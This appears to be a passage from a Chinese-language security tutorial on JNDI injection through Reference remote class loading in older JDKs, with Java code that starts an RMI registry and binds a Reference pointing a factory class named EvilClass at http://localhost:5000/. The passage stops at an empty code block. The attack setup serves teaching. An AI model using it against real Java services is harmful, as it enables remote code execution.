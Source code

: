 ![20230629224143](https://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/20230629224143.png)



## Reference 远程类加载（jdk < 8u121）
Reference 类是用于表示对象引用的特殊类型，可以用于在命名服务中存储和检索对象引用。

Reference 对象通常用于在 JNDI 上下文中绑定或检索可序列化的对象，包含了引用对象的类名、工厂类名以及其他可选的引用信息。

其主要属性如下：
- `class Name`：字符串，表示引用对象的类名。这个类必须实现 `javax.naming.Referenceable` 接口。
- `factory Class Name`：字符串，表示用于创建引用对象实例的工厂类名。这个工厂类必须实现 `javax.naming.spi.ObjectFactory` 接口。
- `Ref Addr`：一个 `RefAddr` 对象的集合，表示引用对象的其他属性或地址信息。

通过将对象的引用信息封装到 Reference 对象中，可以将对象绑定到 JNDI 上下文中，并通过名称在不同的环境中进行查找和检索。当从 JNDI 上下文中检索 Reference 对象时，可以使用其工厂类名创建实际的对象实例。

下面是一个简单的示例, 示例在文章 [JNDI 注入漏洞的前世今生 - evilpan](https://evilpan.com/2021/12/13/jndi-injection/#local-class) 的基础上稍作修改，其主要步骤如下：
1. 开启注册中心
2. 服务端绑定一个 Reference 对象。
3. 客户端发起查询。

首先开启注册中心：
```java
package com.dr34d.registry;

import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Main {
    public static void main(String[] args) throws Exception {
        Registry registry = LocateRegistry.createRegistry(1099);

        // 保持程序运行状态
        while (true) {
            Thread.sleep(1000);
        }
    }
}
```

在服务端创建一个 Reference 对象，引用对象的名称可以随便填写，工厂类名称为 EvilClass，RefAddr 指向本地 5000 端口
```java
package com.dr34d;

import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Main {
    public static void main(String[] args) throws Exception {
        Registry registry = LocateRegistry.getRegistry(1099);

        //这里的Reference ClassName并不一定要完全匹配
        Reference reference = new Reference("xxx","EvilClass","http://localhost:5000/");

        ReferenceWrapper wrapper = new ReferenceWrapper(reference);
        registry.rebind("Foo", wrapper);

    }
}
```
EvilClass 是一个工厂类，实现了 ObjectFactory 类并重写了 getObjectInstance 方法。
```java
```
